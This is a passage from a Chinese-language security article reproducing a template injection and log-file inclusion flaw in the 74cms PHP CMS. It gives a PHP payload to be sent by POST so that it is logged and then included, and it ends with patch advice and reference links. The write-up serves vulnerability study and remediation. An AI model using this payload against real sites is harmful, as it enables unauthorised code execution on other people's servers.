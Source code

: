 这里直接就包含文件，最终造成了模板注入

**利用：**

而利用日志记录错误这个思路我们就可以直接在请求中发送如下 payload：  

```
<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

为什么不能使用 get 来请求，因为 url 在提交给后台处理会被进行 url 编码，从而造成包含不成功，因此要采取 post 方式发送 payload  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsj834jw1HQjHYLQjnWLrvBaXB2ygPhXHQPqTUw9ThccaOemGIkg8CokBvibO8L9ibY80K6IaEG6TNDQ/640?wx_fmt=png)

**0x07 修复方式**  

  

下载最新补丁包  

http://www.74cms.com/download/index.html  

```
参考链接：
```

https://xz.aliyun.com/t/8520  
https://www.kancloud.cn/manual/thinkphp/1827  
https://xz.aliyun.com/t/8596  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行